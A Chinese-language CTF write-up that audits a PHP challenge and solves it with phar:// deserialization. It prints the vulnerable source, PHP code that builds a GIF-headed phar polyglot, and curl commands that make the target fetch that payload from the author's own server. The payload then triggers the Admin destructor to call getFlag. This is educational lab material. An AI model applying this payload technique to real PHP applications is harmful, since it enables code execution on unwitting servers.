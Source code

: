 ```yaml
---
title: 记一次CTF拉练
tags: CTF
typora-root-url: ../
date: 2020-06-12 10:04:58
---
```


#### 前言

这篇文章讲述了一次CTF拉练的一道php的白盒审计题，该文章也是接着Phar://这篇文章写的，主要是记录一下。

<!--more-->

#### 源码

![](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83/index.php.png)

```php
<?php
if (!file_exists("/var/www/data/secret")) { //判断是否存在secret文件，不存在将写入secret文件，存在读取文件
    $SECRET = randomkeys(16); //生成16随机字符
    file_put_contents("/var/www/data/secret", $SECRET); //将生成的16随机字符串写入secret文件
} else {
    $SECRET = file_get_contents("/var/www/data/secret"); //将整个文件读入一个字符串
}
if (isset($_SERVER["HTTP_X_REAL_IP"])) //判断$_SERVER["HTTP_X_REAL_IP"]是否设置并且非空
	$SERVER_IP = $_SERVER["HTTP_X_REAL_IP"]; //true就赋值给$SERVER_IP
else $SERVER_IP = $_SERVER["REMOTE_ADDR"]; //false就获取用户的 IP 地址赋值给$SERVER_IP
$SANDBOX = "/var/www/data/" . base64_encode("ctf" . $SERVER_IP); //路径为/var/www/data/加base64编码(ctf+$SERVER_IP) .代表拼接
@mkdir($SANDBOX); //创建$SANDBOX文件夹 单独的沙盒文件夹
@chdir($SANDBOX); //改变目录$SANDBOX

if (!isset($_COOKIE["session-data"])) { //检查变量是否已设置且不为NULL，不存在将
    $data = serialize(new User($SANDBOX)); //序列化
    $hmac = hash_hmac("sha1", $data, $SECRET); //生成哈希值，sha1算法，$data加密数据，$SECRET为所使用的密钥，
    setcookie("session-data", sprintf("%s-----%s", $data, $hmac)); //向客户端发送一个HTTPcookie，唯一的标识对象加上签名作为session-data
}

class User {
    public $avatar;
    function __construct($path) { //允许在实例化一个类之前先执行构造方法。
        $this->avatar = $path; //标识路径为头像的路径
    }
}

class Admin extends User { 
    function __destruct() { //析构函数
        $_GET["lucky"](); //php 通过GET变量来调用函数
    }
}

function randomkeys($length){   //定义生成随机数方法
    $output='';   
    for ($a = 0; $a<$length; $a++) {   
        $output .= chr(mt_rand(0, 0xFF));    //生成php随机数   
     }   
     return $output;   
 }   

function getFlag() { //定义读取flag方法
    $flag = file_get_contents("/flag");		//把文件字符串读取赋值给$flag
    echo $flag;  //输出flag
}

function check_session() {
    global $SECRET;
    $data = $_COOKIE["session-data"];
    list($data, $hmac) = explode("-----", $data, 2); // 从cookie中取出data和hmac签名存到数组（字符串打散为数组）
    if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) { #判断是否为空
        die("Bye");
    }

    if (!hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac)) { // 判断data加密之后和hmac签名是否对应
        die("Bye Bye");
    }

    $data = unserialize($data); // 反序列化
    if (!isset($data->avatar)) { //如果反序列化之后的data包含的类中无avatar成员,输出一条消息，并退出当前脚本
        die("Bye Bye Bye");
    }

    return $data->avatar; //返回上传路径 
}

function upload($path) {
	// 检查文件头是否为GIF89a，不等于GIF89a 返回fuck off
    $data = file_get_contents($_GET["url"] . "/avatar.gif");
    if (substr($data, 0, 6) !== "GIF89a") {
        die("Fuck off");
    }

    file_put_contents($path . "/avatar.gif", $data); //把一个$data写入（路径）/avatar.gif文件中
    die("Upload OK");
}

function show($path) {
	// 查看/avatar.gif
    if (!file_exists($path . "/avatar.gif")) { //查文件或目录是否存在
        $path = "/var/www/html";
    }

    header("Content-Type: image/gif"); //gif图片格式 
    die(file_get_contents($path . "/avatar.gif")); //将文件内容读入输出并退出
}

$mode = $_GET["m"];
if ($mode == "upload") {
    upload(check_session()); //从cookie中提取data反序列化后的avatar成员并将其内容作为路径, 请求url中的内容写到该路径下的avatar.gif文件中
} else if ($mode == "show") {
    show(check_session()); //从cookie中提取data反序列化后的avatar成员并将其内容作为路径, 展示该目录下的avatar.gif
} else {
    highlight_file(__FILE__); //对取得当前文件的绝对地址文件进行语法高亮显示
}

```

#### 思路解析

首先分析代码, 首先定义了一个getFlag函数, 执行了这个函数就会出flag, 所以整道题的核心就是执行这个函数

题目主要有两个功能, 一个是在沙盒文件夹任意写入一个gif, 一个是根据cookie中的路径查看这个gif

#####  初步想法

admin是关键类,利用通过反序列化之后的析构函数去通过lucky参数去调用Getflag函数输出flag，而反序列化的data是从cookie中获得, 那先尝试一下伪造cookie,但是其实cookie后半部分是用hash_hmac和一个未知的秘钥生成的一个签名, 无法绕过判断机制，基本上不可能伪造的了。

##### 本题考点

php中解析Phar归档中的Metadata的时候会有反序列化的操作

https://www.php.net/manual/zh/phar.getmetadata.php

[Phar://](https://scriptkid-beta.github.io/2020/06/09/Phar/)

#### 解题步骤

##### 方式一

生成phar的gif头格式文件，并修改后缀名为gif

```php
<?php
    class Admin{
    }
    $phar = new Phar("avatar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stubb，增加gif文件头
    $o = new Admin();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest里
    $phar->addFromString("test.txt", "test"); // 添加要压缩的文件
    $phar->stopBuffering(); // 签名自动计算
?>
```

并将生成的gif图放到自己的http服务器中(这里本地python临时起的服务)

![image-20200611132224047](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83/image-20200611132224047.png)

```
http://www.xxxx.com/index.php?m=upload&url=http://10.255.252.192:8000

http://www.xxxx.com/index.php?m=upload&url=phar:///var/www/data/Y3RmMTAuMjU1LjI1Mi4xOTI=&lucky=getFlag
注:这里的base64编码（Y3RmMTAuMjU1LjI1Mi4xOTI=）是由(ctf加ip地址)进行base64编码得到的
```

![](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83/image-20200609084749799.png)

![image-20200609085038212](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83/image-20200609085038212.png)

##### 方式二

生成phar的gif头格式文件，并修改后缀名为gif

```
<?php
    class Admin{
    }
    $phar = new Phar("avatar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stubb，增加gif文件头
    $o = new Admin();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest里
    $phar->addFromString("test.txt", "test"); // 添加要压缩的文件
    $phar->stopBuffering(); // 签名自动计算
?>
```

并将生成的gif图放到自己的http服务器中(这里本地python临时起的服务)

![image-20200611132224047](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83/image-20200611132224047.png)

```
curl --cookie-jar idlefire "http://www.xxxx.com/index.php"

curl -b idlefire "http://www.xxxx.com/index.php?m=upload&url=http://10.255.252.192:8000/"

curl -b idlefire "http://www.xxxx.com/index.php?m=upload&url=phar:///var/www/data/Y3RmMTAuMjU1LjI1Mi4xOTI=&lucky=getFlag"

注:这里的base64编码（Y3RmMTAuMjU1LjI1Mi4xOTI=）是由(ctf加ip地址)进行base64编码得到的
```

![image-20200609085312907](/img/%E8%AE%B0%E4%B8%80%E6%AC%A1CTF%E6%8B%89%E7%BB%83/image-20200609085312907.png)

#### 写到最后

这题根据经典题目（[hitcon-ctf-2017baby^h-master-php-2017](https://github.com/t3hp0rP/hitconDockerfile/tree/master/hitcon-ctf-2017/baby^h-master-php-2017)）进行的改编，在某种程度上进行降低了难度。

#### 参考

https://www.jianshu.com/p/19e3ee990cb7

https://www.bilibili.com/read/cv6347230/

https://xz.aliyun.com/t/1773/

https://www.cnblogs.com/jxkshu/p/4997219.html
